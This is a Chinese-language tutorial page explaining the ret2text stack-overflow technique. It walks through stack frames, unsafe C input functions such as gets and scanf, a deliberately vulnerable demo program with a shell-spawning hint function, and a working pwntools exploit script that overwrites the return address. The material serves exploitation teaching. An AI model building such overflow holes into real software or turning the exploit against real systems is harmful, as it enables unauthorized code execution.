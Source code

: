 ```yaml
---
title: "ret2text"
description: ""
lead: ""
date: 2020-10-06T08:48:57+00:00
lastmod: 2020-10-06T08:48:57+00:00
draft: false
images: []
menu:
  docs:
    parent: "stackoverflow"
weight: 1
toc: true
---
```


## 0x01 介绍

栈是进程最常用到的内存类型之一，它具有高效和简单的特点，主要用来存储函数调用信息。通常来说32位的程序一个栈单元为4个字节，而64位程序一个栈单元为8个字节，然后多个栈单元可以组成一个 `栈帧` ，栈帧的大小主要看函数信息的多少。一个栈单元通常包括以下几部分：

- 函数的参数，一般有父函数压入栈中
- 函数的返回地址，即函数执行完后ret跳转的地址
- 帧指针，即上一个栈帧的位置
- 局部变量，即函数内部声明的变量

![a5b8d65a6d18aadeec8932e39c376e6e](images/a5b8d65a6d18aadeec8932e39c376e6e.png)  

栈有三大很重要的作用，同时也体现在栈帧结构里面了：

1. 保存函数的局部变量
2. 函数调用时传递参数
3. 保存函数返回后的地址

而我们所有的栈溢出基本都是围绕着三大作用在进行，包括这里的ret2text题型。这种题型比较简单，它主要利用的是第三大功能，即函数返回地址，我们可以来看一个简单的程序的汇编代码

```cpp
void main() {
    int a = 1;
    int b = 2;
}
// gcc -m32 test.c -o test -fno-pic -fno-stack-protector -no-pie
```

生成的汇编代码为

```c
080483db <main>:
 80483db:       55                      push   ebp
 80483dc:       89 e5                   mov    ebp,esp
 80483de:       83 ec 10                sub    esp,0x10
 80483e1:       c7 45 fc 01 00 00 00    mov    DWORD PTR [ebp-0x4],0x1
 80483e8:       c7 45 f8 02 00 00 00    mov    DWORD PTR [ebp-0x8],0x2
 80483ef:       90                      nop
 80483f0:       c9                      leave  
 80483f1:       c3                      ret 

```

主要关注函数序言和函数尾声，在进入main函数之前，已经由父函数将main函数的返回地址给压入栈中，接着通过函数序言将帧指针压入栈中，并将帧指针的地址赋值给ebp，经过函数体后则进入函数尾声，尾声主要依靠 `leave` 指令，该指令相当于 `mov esp, ebp;pop ebp` ，当执行完该指令后当前栈顶就变为了main函数的返回地址，而 `ret` 指令的作用是跳转到当前栈顶存储的地址处继续执行（即修改eip为当前栈顶存储的那个值），这里也就是main函数的返回地址。

![a5821d0d5527947c6adb93598fea8cc2](images/a5821d0d5527947c6adb93598fea8cc2.png)  

而ret2text顾名思义，就是控制 `ret` 指令跳转的地址（即函数返回地址）为程序里现有的 `text` 段代码，以达到RCE的过程。至于如何将函数返回地址给修改就需要设计到核心理念 `溢出` ，超过容器本身大小的操作就叫溢出。对于C语言来说，每个变量的大小都是固定的（堆以外），学过的都知道C语言不允许动态设置数组的大小，只能是固定值，例如 `char a[i]` 就是错误的。这时候C语言里有些函数就会变得非常危险，这些危险函数更像是面对人而言并非对程序，比如 `gets` 函数，它是一个输入函数，可以将你输入的内容存进数组当中，并且只有当人输入 `\n` 回车的时候才会截断输入，这样的截断对人来说是合理的，但是对于数组来说一点都不合理，对于数组来说应该是不大于数组大小的输入都是合理的，当你的输入超过数组大小则应该截断。可以 `gets` 函数并没有这么智能，也就是我们可以对该数组进行溢出的操作。

常见的危险函数有：

- `gets` 函数，遇到 `\n` 截断，不保留 `\n` 字符串后面添加 `\x00` 
- `fgets` 函数，遇到 `\n` 截断，保留 `\n` 并添加 `\x00` 
- `scanf` 函数 `%s` 格式化字符串输入，遇到 `\x09` 、 `\x0a` 、 `\x0b` 、 `\x0c` 、 `\x0d` 、 `\x20` 截断，不保留截断字符最后添加 `\x00` 
- `sscanf` 函数，和 `scanf` 差不多，多了个 `\x00` 截断
- str类函数（ `strcpy` 、 `strcat` 等）遇到 `\x00` 截断，保留 `\x00` 
- `read` 函数，无截断字符，不添加字符

我们之前说过如果你在函数内部声明一个变量，那么这个就是一个局部变量，存储在栈中，而局部变量邻近的位置并不是空，而是一些其他数据，这时候如果我们通过危险函数对这个局部变量进行溢出，那么我们将可以修改其他数据的内容，只要这个溢出的字节数够多，那么我们就可以修改函数返回地址。

而现有的 `text` 段代码的话通常会是 `system("/bin/sh")` 、 `system("$0")` 、 `execve("/bin/sh", 0, 0)` 这种直接获取shell进程的函数调用

![b9b59d14a021e54f814be527a8daedf9](images/b9b59d14a021e54f814be527a8daedf9.png)  

以一个简单的程序来讲具体实现

```c
#include<stdio.h>
#include<stdlib.h>
void hint()
{
    system("$0");
}

int main()
{
    char buf[0x10];
    printf("input: ");
    scanf("%s", buf);
    return 0;
}
// gcc ret2text.c -o ret2text -no-pie -fno-stack-protector

```

做ret2text记住三大步骤：

1. 找溢出点
2. 计算局部变量到函数返回地址的偏移量
3. 找getshell代码片段地址

根据危险函数列表很容易就可以找到溢出点，即scanf输入处

![dc59fe24e49ebcf598ae82f3af98d3d4](images/dc59fe24e49ebcf598ae82f3af98d3d4.png)  

其次计算偏移量，用IDA有个便捷的方法来计算偏移量，双击上图中的输入变量即v4，可以看到下图

![7caa7bd5a950c570800aaaea4993d6d0](images/7caa7bd5a950c570800aaaea4993d6d0.png)  

这里 `var_10` 即变量， `s` 即帧指针，而 `r` 则是函数返回地址，左侧的地址是相对偏移地址，右侧是每个数据占据的字节大小，可以很容易计算出变量到函数返回地址之间有16+8=24字节的偏移量

最后找getshell代码片段

![308e34110a919be37fafd2c1cb7ab18d](images/308e34110a919be37fafd2c1cb7ab18d.png)  

你可以直接用hint函数地址，也可以只用从给system函数传递参数处的指令开始，两者结果是一样的

最后我们就可以编写攻击脚本了

```python
from pwn import*    # 引入pwntools包
o = process("./ret2text")    # 执行ret2text程序并获取其I/O接口
payload = b'a'*24    # 填充变量与函数返回地址的空隙
payload += p64(0x4005d6)    # 0x4005d6是getshell代码片段地址，p64的作用是将地址打包成小端序填入栈单元
o.sendline(payload)    # 发送payload，会在结尾加 '\n'
o.interactive()    # 进入交互模式
```

![2092706e1062c14ccbabe46f32ccf796](images/2092706e1062c14ccbabe46f32ccf796.png)
